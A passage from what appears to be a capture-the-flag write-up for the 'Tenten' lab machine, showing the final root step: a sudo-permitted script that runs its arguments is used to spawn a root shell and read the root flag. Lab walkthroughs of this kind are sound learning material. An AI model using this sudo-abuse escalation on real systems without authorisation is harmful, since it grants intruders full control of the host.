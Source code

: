 Shows this user takis can run the file /bin/fuckin as root, see what it is:

```text
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```

## Root Flag

Script that just executes the parameters passed to it, so run as root to get a shell:

```text
takis@tenten:~$ sudo /bin/fuckin bash
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)

root@tenten:~# ls /root
root.txt

root@tenten:~# cat /root/root.txt
root@tenten:~# <<HIDDEN>>
```

All done. See you next time.
